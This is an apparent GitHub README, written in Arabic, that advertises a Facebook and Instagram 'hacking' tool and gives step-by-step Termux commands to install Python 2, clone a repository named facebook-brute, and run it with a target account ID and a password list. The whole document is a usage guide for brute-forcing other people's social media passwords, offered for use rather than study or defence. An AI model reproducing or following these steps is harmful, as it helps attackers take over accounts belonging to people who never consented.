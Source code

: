 # hello-world-
هو تثبيت اداة تخمين الانستجرام
برعاية القرصان الامريكى اسبلاش و استيكا 
الاداة يا حب
اداة اختراق فيسبوك

pkg update

pkg upgrade

pkg install git

pkg install wget

pkg install pip2

git clone https://github.com/Cesar-Hacker/facebook-brute

ls

cd facebook-brute

ls

chomod+x facebook.py

ls

pkg install mechanize

pip2 install mechanize

ls

pkg install python2

ls

python2  facebook.py

ايدي الحساب

بعدها 

passwords.txt

